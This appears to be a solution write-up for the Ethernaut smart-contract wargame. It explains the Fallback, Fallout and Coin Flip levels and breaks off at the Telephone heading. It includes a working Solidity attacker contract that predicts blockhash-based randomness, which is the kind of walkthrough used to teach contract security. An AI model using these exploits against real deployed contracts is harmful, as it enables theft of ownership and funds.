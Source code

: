 
## 1. Fallback

The goal is to become the owner of the contract.
The contract is quite easy to understand and we can see that the owner can be reset by calling the `fallback` function, i.e., we just do an ether transfer to the contract (empty data field in the transaction).
To pass the checks, we first need to call `contribute` once.

## 2. Fallout

What looks like the constructor is just a misspelt function `Fal1out` that can be called by anyone to claim ownership.

## 3. Coin Flip

The goal is to correctly predict the coin flip 10 times in a row.
The contract uses the previous blockhash as the flip outcome.
We can easily solve this challenge by deploying a custom contract simulating the exact same coin flipping logic and calling the real challenge contract with this result.

```solidity
pragma solidity ^0.7.3;

interface ICoinFlipChallenge {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttacker {
    ICoinFlipChallenge public challenge;

    constructor(address challengeAddress) {
        challenge = ICoinFlipChallenge(challengeAddress);
    }

    function attack() external payable {
        // simulate the same what the challenge contract does
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool side = coinFlip == 1 ? true : false;

        // call challenge contract with same guess
        challenge.flip(side);
    }

    receive() external payable {}
}
```

## 4. Telephone
